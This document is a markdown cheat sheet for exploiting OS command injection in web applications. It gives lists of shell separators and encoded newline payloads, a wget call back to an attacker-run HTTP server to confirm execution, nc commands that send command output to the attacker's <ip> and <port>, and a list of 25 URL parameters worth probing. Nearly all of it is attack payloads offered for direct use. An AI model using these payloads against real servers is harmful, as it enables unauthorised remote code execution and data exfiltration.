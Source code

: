 # RCE

When a script called from a web page performs operations directly on the server using a shell (cmd or bash) it is possible to append malicious code to the argument. The following strings can be used as effective separators between legit parameters and injected commands.

## Make argument executable

The given argument will be executed by the host instead of being threated as literal string

```php
`<cmd>`
$(<cmd>)
```

## Concatenate code to argument

Pass a standard argument and use one of the following strings to append a command that will be executed by the host.

```php
;
|
||
&
&&
';
"'
'"
%0a%0a
%0a%0d
%0a
%0d
%0a%0d
%0D
%0A
%0D%0A
%0d%0a
%0D%0a
%0d%0a
%250a
%250a%250d
%250a
%250a%250d
%25%30%44%a
%25%30%64%a
%25%30%41%a
%25%30%61%a
%25%30%44%25%30%41%a
%25%32%30%25%30%64%25%30%61%a
```

## Verify command execution

Start a HTTP server on your machine and make the remote host request a resource on your server. If you receive a GET request, the code injection was successful.

```php
python -m SimpleHTTPServer 80
junk%0D%0Awget%20<ip>/ok
```

## Send output

If it's not possible to read the output from the response, you can make the remote host connect back to you with nc and send the result to your machine.

```php
<command>|nc+<ip>+<port>
nc -nlvp <port>            #print output
nc -nlvp <port> > file     #send output to file
```

## Parameters

Here are the top 25 parameters that could be vulnerable to code injection and similar RCE vulnerabilities (from  [link](https://twitter.com/trbughunters/status/1283133356922884096)):

```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```
